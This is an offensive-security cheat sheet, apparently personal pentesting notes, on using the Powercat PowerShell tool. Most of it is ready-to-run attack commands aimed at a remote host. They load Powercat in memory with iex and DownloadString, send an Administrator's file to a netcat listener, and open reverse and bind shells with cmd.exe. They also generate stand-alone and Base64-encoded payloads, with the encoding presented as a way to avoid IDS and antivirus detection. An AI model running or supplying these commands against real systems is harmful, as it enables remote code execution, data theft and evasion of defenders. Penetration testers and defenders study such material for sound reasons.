 # Powercat

## Powercat Options

```
powercat -h

-l option to create a listener
-c option specifies client mode and sets the listening IP address
-p specifies the port number to connect to
-i indicates the local file that will be transferred remotely
-g option to redirect the output to a file
-e to generate a stand-alone encoded payload
```

## Loading Powercat

```
PS C:> . .\powercat.ps1
```

Note powercat.ps1 loaded as above is only available to the current PowerShell instance

Alternatively, can use `iex` to load downloaded powercat.ps1 script in memory and user powercat directly:

`PS C:> iex (New-Object System.Net.Webclient).DownloadString('http://192.168.119.189/powercat.ps1');powercat -c 192.168.119.189 -p 443 -e cmd.exe`

## File Transfer

```
powercat -c 192.168.119.189 -p 443 -i C:\Users\Administrator\file.txt
```

```
sudo nc -lnvp 443 > file.txt
```

## Reverse/Bind Shells

```
powercat -c 192.168.119.189 -p 443 -e cmd.exe
```

```
powercat -l -p 443 -e cmd.exe
```

{% content-ref url="../../collections/reverse-shell/powershell-1.md" %}
[powershell-1.md](../../collections/reverse-shell/powershell-1.md)
{% endcontent-ref %}

{% content-ref url="../../collections/bind-shell/powershell.md" %}
[powershell.md](../../collections/bind-shell/powershell.md)
{% endcontent-ref %}

## Powercat stand-alone payloads

`-g` option

```
PS C:\Users\Administrator> powercat -c 192.168.119.189 -p 443 -e cmd.exe -g > reverseshell.ps1
PS C:\Users\Administrator> ./reverseshell.ps1
```

It’s worth noting that:

* stand-alone payloads like this one might be easily detected by IDS.&#x20;
* the script that is generated is rather large with roughly 300 lines of code.&#x20;
* it also contains a number of hardcoded strings that can easily be used in signatures for malicious activity.&#x20;
* plaintext malicious code such as this will likely have a poor success rate and will likely be caught by defensive software solutions.

### Encoded payloads

We can attempt to overcome this problem by making use of PowerShell’s ability to execute Base64 encoded commands:

`-e` option

```
// reverse shell
PS C:\> powercat -c 192.168.119.189 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1

// bind shell
PS C:\> powercat -l -p 443 -e cmd.exe -ge > encodedbindshell.ps1
```

The file will contain an encoded string that can be executed using the PowerShell -E (EncodedCommand) option. Just need to pass the whole encoded string to powershell.exe -E:

```
PS C:\> powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACA[...]
```
